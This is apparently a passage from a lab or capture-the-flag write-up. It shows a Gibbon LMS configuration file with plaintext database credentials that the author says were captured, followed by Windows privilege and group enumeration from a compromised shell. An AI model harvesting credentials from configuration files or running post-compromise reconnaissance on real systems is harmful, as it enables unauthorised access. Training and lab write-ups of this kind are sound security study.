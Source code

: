 ```php
*/

/**
 * Sets the database connection information.
 * You can supply an optional $databasePort if your server requires one.
 */
$databaseServer = 'localhost';
$databaseUsername = 'MrGibbonsDB';
$databasePassword = 'MisterGibbs!Parrot!?1';
$databaseName = 'gibbon';

/**
 * Sets a globally unique id, to allow multiple installs on a single server.
 */
$guid = '7y59n5xz-uym-ei9p-7mmq-83vifmtyey2';

/**
 * Sets system-wide caching factor, used to balance performance and freshness.
 * Value represents number of page loads between cache refresh.
 * Must be positive integer. 1 means no caching.
 */
$caching = 10;
```


We got credentials for the DB, let's check any other relevant info

```powershell
C:\xampp\htdocs\Gibbon-LMS>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeCreateGlobalPrivilege       Create global objects          Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

C:\xampp\htdocs\Gibbon-LMS>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```